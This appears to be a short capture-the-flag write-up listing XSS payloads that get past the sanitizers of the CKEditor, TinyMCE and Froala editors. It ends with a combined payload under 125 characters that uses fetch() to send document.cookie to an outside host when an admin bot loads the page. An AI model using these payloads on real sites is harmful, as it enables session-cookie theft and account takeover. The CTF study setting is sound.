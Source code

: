 ## Payloads

### CKEditor
```html
<!--{cke_{cke_protected}protected}><!--><!--><img src="a" onerror="alert(document.domain)"><!-->
```

### TinyMCE
```html
<select><caption><noframes><input><img src="a" onerror="alert(document.domain)">
```

### Froala
```html
<noframes><img src="a" onerror="alert(document.domain)">
```

### Combined
```html
<select><select><caption><noframes><input><!--{cke_{cke_protected}protected}><!--><!--><img src=a onerror=alert(1)><!-->
```

### Final payload that passes the text param limit of 125 characters:
```html
<select><select><caption><noframes><input><!--{cke_{cke_protected}protected}><!--><!--><img src=a onerror=eval('%60'%2bURL)><!-->&g=`+fetch(`http://aw.rs?cookie=`+document.cookie);//
```

## Notes
* The url the admin visits is `http://web:5000/${editor}/?text=${text}` so extra query params can be used
* Once you have the three cookies they can be xored together to get the flag
